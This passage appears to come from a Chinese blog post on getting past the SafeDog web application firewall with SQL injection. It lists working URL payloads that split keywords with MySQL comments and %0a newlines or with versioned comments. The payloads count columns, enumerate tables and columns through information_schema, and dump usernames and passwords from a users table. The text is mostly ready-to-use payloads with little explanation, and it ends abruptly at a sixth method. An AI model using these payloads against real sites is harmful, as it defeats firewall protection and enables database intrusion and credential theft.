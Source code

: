 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHskm3lAVPRMXzibM1kN0mh0OA42felhTx3ZibQKTvWAtumAOtibFMSyArPQ/640?wx_fmt=png)

### **第五种：字符型**

– - 是 mysql 的注释符 然后加上 %0a 换行。安全狗正则匹配 order by,union select。并不单纯匹配某一个单词函数 -- -a%0a

```
#字段数
?id=1 order -- -a%0a by 3%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHs1iawyMIXuZS1NFZQZws4ng3wxOCFlKhVjCf7y1MZMM0FKfLD3BIdSEQ/640?wx_fmt=png)

```
#数据库
?id=-1 union-- -a%0a select 1,database-- -a%0a(),3%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHskX4BDC3q7taQ8ibiaSpFv0tRlVBjxGnFQZ32u1fK377mQ39Zll4iavbuQ/640?wx_fmt=png)

```
#表名
?id=-1 union-- -a%0a select 1,group\_concat(-- -a%0atable\_name),3 from information\_schema.tables where table\_schema=0x7365637572697479%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsX7lEoz0TFk29lMpvLaeGeiaGcYGZWEge7qUjMz9d7BeGQl2vOXOrBTA/640?wx_fmt=png)

```
#字段名
?id=-1 union-- -a%0a select 1,group\_concat(-- -a%0acolumn\_name),3 from information\_schema.columns where table\_name=0x7573657273%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsjRNZWXfgyJ1qS9VtS3yicV6ZayJEnDkclglVupHAbAFRAGVsydIBGEw/640?wx_fmt=png)

```
#字段内容
?id=-1 union-- -a%0a select 1,group\_concat(-- -a%0a0x7e,username,password),3 from users%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsxllT9r917tMFVvibgfAq4IQ7l5ibbM3xE8GAcvTcEhdpNOhAfMvFdZUg/640?wx_fmt=png)

### **第六种：**

贴图太累了，放弃

```
#数据库
?id=\\Nunion/\*!14444select\*/1,database(%23%0a),3

```
